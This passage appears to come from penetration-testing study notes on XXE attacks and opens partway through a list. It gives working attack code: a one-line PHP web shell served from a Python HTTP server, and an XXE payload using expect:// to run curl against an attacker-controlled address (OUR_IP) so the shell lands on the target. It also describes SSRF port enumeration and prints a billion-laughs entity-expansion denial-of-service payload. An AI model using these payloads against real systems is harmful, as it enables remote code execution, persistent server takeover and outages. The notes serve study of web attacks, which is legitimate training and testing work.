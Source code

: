 - if XXE directly prints its output, we can execute basic commands as `expect://id` and the page will print the command output

4. most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app

```sh
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python -m http.server 80
```

- we can use this XML to execute a curl command that downloads our web shell into the remote server

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
- replaced all spaces in curl command with `$IFS` to avoid breaking the XML syntax
- many other characters like |, > and { may break the code, and should avoid using them

## Other XXE Attacks

- SSRF exploitation - used to enumerate locally open ports and access their pages among other restricted web pages through XXE vulnerabilities
- common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
